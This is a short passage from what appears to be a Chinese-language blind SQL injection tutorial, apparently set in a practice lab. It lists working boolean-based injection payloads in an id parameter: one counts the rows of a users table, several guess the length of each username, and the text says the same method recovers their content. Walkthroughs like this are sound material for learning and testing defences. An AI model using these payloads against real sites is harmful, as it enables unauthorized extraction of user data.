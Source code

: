 ```plain
?id=1' and (select count(*) from users)=13 --+
```

[![](assets/1707953831-9d6161b96bc82ec4607b1f56790ecee0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192217-a7c6fc28-c34f-1.png)  
之后再来判断每条数据的长度

```plain
第一个数据长度为 4
?id=1' and length((select username from users limit 0,1))=4  --+

第二个数据长度为 8
?id=1' and length((select username from users limit 1,1))=8  --+

第三个数据长度为 5
?id=1' and length((select username from users limit 2,1))=5  --+

...

第十三个数据长度为 6
?id=1' and length((select username from users limit 12,1))=6  --+
```

再用同样的方法猜解数据的内容，这里以第一个数据为例，数据内容为 dumb  